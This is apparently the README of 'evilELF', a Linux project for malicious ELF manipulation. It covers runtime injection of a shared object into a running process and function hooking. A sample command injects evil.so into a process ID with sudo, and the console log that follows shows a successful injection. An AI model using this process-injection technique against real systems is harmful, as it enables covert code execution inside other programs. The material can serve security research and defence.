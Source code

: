 # evilELF
Malicious use of ELF such as .so inject, func hook and so on.

## [InejctRuntimeELF](https://github.com/jmpews/evilELF/tree/master/InjectRuntimeELF)

具体参考 [linux进程动态so注入](https://github.com/jmpews/dev2pwn/blob/master/linux%E8%BF%9B%E7%A8%8B%E5%8A%A8%E6%80%81so%E6%B3%A8%E5%85%A5.md)
实现恶意 `so` 注入, 采用直接解析 `ELF` 文件的方式, 更加具有通用性, 并以 `.gnu.hash` 进行符号查找, 适用于目前的 `ELF` 结构.

代码规范, 参考 `glibc-2.19`, 用 `ElfW` 宏进行 `32` 和 `64` 字长兼容.

#### Demo & Usage

#### usage

```
➜  InjectRuntimeELF git:(master) ✗ sudo ./inject 3631 /evilELF/InjectRuntimeELF/example/evil.so
--------------------------------------------------------------
InjectRuntimeELF - (1.0.0) - by jmpews@gmail.com
--------------------------------------------------------------
[*] attached to pid 3631.
[*] dump runtime infomation
[*] dumping header...
[*] start symbol search '__libc_dlopen_mode'...
[*] start search libaray: /lib/i386-linux-gnu/libc.so.6
[*] start bucket search...
[*] found '__libc_dlopen_mode' at 0xb7693ae0
[+] entry point: 0x8048380
[+] stopped 3631 at eip:0xb7729428, esp:0xbf93cffc
[+] inject code done 3631 at eip:0x8048396
[*] start symbol search 'evilfunc'...
[*] start search libaray: /lib/i386-linux-gnu/libc.so.6
[*] start search libaray: /lib/ld-linux.so.2
[*] search in ld, no link_map.
[*] start search libaray: /evilELF/InjectRuntimeELF/example/evil.so
[*] start bucket search...
[*] found 'evilfunc' at 0xb772353b
[*] lib injection done!
```
